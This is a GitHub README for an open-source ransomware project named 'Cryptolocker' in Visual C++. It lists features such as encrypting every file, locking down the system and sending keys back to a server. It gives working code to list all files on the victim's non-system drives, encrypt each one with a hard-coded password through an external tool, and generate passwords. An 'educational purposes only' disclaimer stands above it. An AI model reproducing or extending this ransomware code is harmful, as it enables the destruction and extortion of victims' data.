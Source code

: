#### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

![𝚅𝚒𝚜𝚒𝚝𝚘𝚛𝚜](https://visitor-badge.laobi.icu/badge?page_id=ajayrandhawa.Cryptolocker&title=Visitor )

# Cryptolocker

Crypto is open source Crypto-Locker. Crypto is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.

Using a powerful 256-bit encryption algorithm, Once a file is encrypted, File is completely useless without the password. It simply cannot be read.

## Features

1. Strong AES Encryption. (Unbreakable)
2. Lockdown System Functionailty.
3. Multi-Thread Encryption.
4. Powerful Web Admin Interface

<img src="ezgif-1-e99b3d2b6b39.gif" >

## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use. I use Boost C++ libraries to get all files list. Please first setup Boost libraries to compile program.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

	int dr_type = 99;
	char dr_avail[MAX];
	char *temp = dr_avail;

	/* 1st we fill the buffer */
	GetLogicalDriveStrings(MAX, dr_avail);
	while (*temp != NULL) { // Split the buffer by null
		dr_type = GetDriveType(temp);

		char skip[10] = "C:\\";

		if (dr_type == 3 && temp[0] != 'C') {

			boost::system::error_code dir_error;

			for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
				if (dir_error.value()) {
					cerr << "Error accessing file: " << dir_error.message() << endl;
				}
				else {
					cout << dir->path() << endl;
					out_file << dir->path() << "\n";
				}
			}
		}
		temp += lstrlen(temp) + 1;
	}
	out_file.close();
	system("pause");
	
```

## Step 2 (Encrypt files)

Here firstly I get every file path from "data.txt" line by line and send to this crypy tool with type encryption and password. you can also embed all this program in upper loop for getting path and encrypting data recursively.

```
out_file.open("data.txt", ios::in);
	string line;
	while (out_file.good()) {
		getline(out_file, line);
		cout << line << endl;
		std::string cmmd = "crpt.exe -e -p 4321 ";
		cmmd += line;
		system(cmmd.c_str());
	}
```

## Step 3 (Create Long String Complex Password Function)

Send length to function and function return complex long generated password which you can use for encryption.

```
string RandomString(int len)
{
	srand(time(0));
	string str = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
	string newstr;
	int pos;
	while (newstr.size() != len) {
		pos = ((rand() % (str.size() - 1)));
		newstr += str.substr(pos, 1);
	}
	return newstr;
}
```

# Currently in Development....
# Happy Cyber Security.....Happy Open Source.......
# :)
